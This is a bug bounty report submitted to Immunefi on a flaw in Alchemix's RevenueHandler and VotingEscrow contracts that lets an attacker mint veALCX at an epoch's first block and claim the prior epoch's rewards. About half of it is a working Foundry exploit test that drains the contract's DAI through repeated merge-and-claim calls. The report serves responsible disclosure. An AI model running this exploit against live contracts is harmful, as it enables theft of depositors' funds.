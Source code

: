 
# The balance of RevenueHandler can be drained

Submitted on May 19th 2024 at 18:09:45 UTC by @DuckAstronomer for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31453

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol

Impacts:
- Theft of unclaimed yield

## Description
## Vulnerability Details
Normally, veALCX holders can claim the reward that has been accrued during the current Epoch from the `RevenueHandler` contract in the next Epoch.

The `epochUserVeBalance` variable contains the veALCX user's balance for the previous epoch, while the `epochTotalVeSupply` variable contains the total veALCX supply for the previous epoch.

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol#L322

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol#L319

However, the `balanceOfTokenAt()` function has a strong less condition:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol#L1430

```
// If time is before before the first epoch or a tokens first timestamp, return 0
if (_epoch == 0 || _time < pointHistory[userFirstEpoch[_tokenId]].ts) {
    return 0;
}
```

Therefore, if the veALCX has been created in a block where `block.timestamp == New EPOCH beginning`, the `RevenueHandler._claimable()` function will return a positive value (> 0).

This means that an attacker can flash-mint veALCX at that specific block and claim the reward from the `RevenueHandler` for the previous Epoch, effectively stealing the rewards for the previous Epoch.

## Impact Details
Theft on reward from the `RevenueHandler` contract.



## Proof of Concept

Poc scenario:
1. In the current epoch, two whales (whale_1 and whale_2) mint veALCX.
2. The Revenue Handler accrues the revenue in DAI (10k DAI), and the `checkpoint()` method is called.
3. However, the whales can claim the reward in the next epoch.
4. The bad guy (attacker) crafts an attack transaction in the block where `block.timestamp == New EPOCH beginning`.
5. In this scenario, the attacker can mint veALCX and claim a portion of the DAI reward from the previous epoch due to the condition `block.timestamp == New EPOCH beginning`, effectively stealing the reward from the whales.
6. The attacker can then proceed to drain the entire DAI balance from the Revenue Handler.
7. This is achieved by creating a new veALCX with a small amount of BAL and then calling `veALCX.merge()`. This action transfers the balance from the previous veALCX to the new one, providing another opportunity to claim DAI from the Revenue Handler.
8. Repeat step 7 until the Revenue Handler's balance reaches 0.

To run the PoC, place the code below in the `PoC.t.sol` file and execute the command: `forge test --mp src/test/PoC.t.sol --fork-url 'URL'`.


```
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract Poc is BaseTest {
    uint256 EPOCH = 2 weeks;

    function setUp() public {
        setupContracts(block.timestamp);

        hevm.prank(admin);
        revenueHandler.transferOwnership(address(this));

        revenueHandler.addRevenueToken(dai);
    }

    // Run as: forge test --mp src/test/Poc.t.sol --fork-url 'URL'
    function test_poc() public {
        address whale1 = address(1);
        address whale2 = address(2);

        address bad = address(3);

        // Whales stake and get veAlcx
        uint256 tokenId_w1 = createVeAlcx(whale1, 1000e18, MAXTIME, false);
        uint256 tokenId_w2 = createVeAlcx(whale2, 1000e18, MAXTIME, false);

        // Accrue revenue in DAI
        deal(dai, address(this), 10_000 ether);
        IERC20(dai).transfer(address(revenueHandler), 10_000 ether);

        // Checkpoint in current epoch
        revenueHandler.checkpoint();

        // Whales should be able to claim the reward in the next Epoch
        assertEq(
            revenueHandler.claimable(tokenId_w1, dai), 0
        );

        // Move to the beginning of the next Epoch
        uint256 BEGINNING_NEW_EPOCH = ((block.timestamp) / EPOCH) * EPOCH + EPOCH;
        hevm.warp(BEGINNING_NEW_EPOCH);

        // The bad guy immediately mints veAlcx and calls checkpoint() in the new Epoch
        uint256 tokenId_bad = createVeAlcx(bad, 100e18, MAXTIME, false);
        revenueHandler.checkpoint();

        // Because the block.timestamp matches the beginning of the Epoch
        // it returns positive value
        // https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol#L1430
        assertGt(
            veALCX.balanceOfTokenAt(tokenId_bad, BEGINNING_NEW_EPOCH), 0
        );

        assertGt(
            revenueHandler.claimable(tokenId_bad, dai), 0
        );

        // The bad guy claims the reward in DAI
        // stealing the reward from whales
        hevm.startPrank(bad);
        revenueHandler.claim(
            tokenId_bad,
            dai,
            address(0),
            revenueHandler.claimable(tokenId_bad, dai),
            bad
        );
        hevm.stopPrank();

        assertGt(
            IERC20(dai).balanceOf(bad), 0
        );

        // The bad guys completely drains DAI reward from revenueHandler!!!
        assertGt(
            IERC20(dai).balanceOf(address(revenueHandler)), 0
        );

        uint256 last_id = tokenId_bad;
        while(true) {
            uint256 current_id = createVeAlcx(bad, 10, MAXTIME, false);

            hevm.startPrank(bad);

            veALCX.merge(last_id, current_id); // Merge old veALCX with new!!

            uint256 claimable = revenueHandler.claimable(current_id, dai);

            assertGt(
                claimable, 0
            );

            uint256 skip = 0;
            if (claimable > IERC20(dai).balanceOf(address(revenueHandler))) {
                claimable = IERC20(dai).balanceOf(address(revenueHandler));
                skip = 1;
            }

            revenueHandler.claim(
                current_id,
                dai,
                address(0),
                claimable,
                bad
            );

            last_id = current_id;

            if (skip > 0)
                break;

            hevm.stopPrank();
        }

        assertEq(
            IERC20(dai).balanceOf(address(revenueHandler)), 0
        );
    }
}
```